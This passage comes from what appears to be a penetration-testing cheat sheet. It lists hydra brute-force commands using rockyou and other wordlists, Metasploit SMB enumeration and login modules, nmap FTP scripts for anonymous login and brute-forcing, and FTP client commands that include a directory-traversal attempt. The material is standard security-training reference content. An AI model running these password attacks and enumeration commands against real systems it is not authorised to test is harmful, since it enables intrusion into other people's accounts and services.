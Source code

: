 ```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz

hydra -l admin -P /usr/share/wordlists/rockyou.txt <TARGET_IP> smb
hydra -l <user> -P /usr/share/wordlists/rockyou.txt <targetIP> <service>
```


#### Metasploit

```bash
# METASPLOIT Starting
msfconsole
msfconsole -q

# METASPLOIT SMB
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/smb/smb_enumusers
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_login
use auxiliary/scanner/smb/pipe_auditor

## set options depends on the selected module
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set SMBUser <USER>
set RHOSTS <TARGET_IP>
exploit
```

### FTP

#### Nmap

```bash
sudo nmap -p 21 -sV -sC -O <TARGET_IP>
nmap -p 21 -sV -O <TARGET_IP>

nmap -p 21 --script ftp-anon <TARGET_IP>
nmap -p 21 --script ftp-brute --script-args userdb=<USERS_LIST> <TARGET_IP>
```

#### Ftp Client

```bash
ftp <TARGET_IP>
ls
cd /../..
get <filename>
put <filename>
```

#### Hydra

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <TARGET_IP> -t 4 ftp
```
